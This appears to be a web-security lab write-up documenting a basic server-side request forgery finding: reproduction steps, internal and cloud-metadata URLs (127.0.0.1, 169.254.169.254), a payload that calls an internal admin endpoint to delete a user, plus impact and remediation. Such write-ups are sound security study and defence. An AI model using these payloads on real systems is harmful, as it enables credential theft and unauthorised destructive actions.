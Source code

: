 
# PS-008 — SSRF (Basic)
**Date / Analyst:** 2025-09-13 — Christopher Araque

## TL;DR
The application fetches a user-supplied URL server-side without proper allow‑listing.
An attacker can coerce requests to **internal endpoints** or **cloud metadata**.

## Target Pattern
- Endpoint:
  POST /product/stock HTTP/2
  Host: <lab-host>web-security-academy.net
  Cookie: session=<redacted>

## Steps to Reproduce
1) Identify a feature that **fetches a URL** server-side (stock check, image fetch, PDF fetch).
2) Send internal/localhost URLs:
   - `http://127.0.0.1/`
   - `http://localhost/`
   - `http://169.254.169.254/latest/meta-data/`   (cloud metadata)
3) Observe server response (status/body/timing) proving the server made the request.

## Evidence
- Request/Response: [ps-008-request.txt](../../evidence/ps-ssrf/ps-008-request.txt)
- Screenshot: ![PS‑008](../../evidence/ps-ssrf/ps-008-screenshot.png)

## Payloads
stockApi=http://localhost/admin/delete?username=carlos

## Impact
Access to internal services or cloud metadata → credential exposure, pivot, privilege escalation.

## Recommended Remediation
- **Allow‑list** known-good domains; block private IP ranges (RFC1918, 127.0.0.0/8, 169.254.0.0/16, ::1, etc).
- Normalize/resolve DNS before checks; fetch via an **egress proxy** with filtering.
- Disable redirects to internal addresses; use metadata‑proxy or IMDSv2 (AWS).
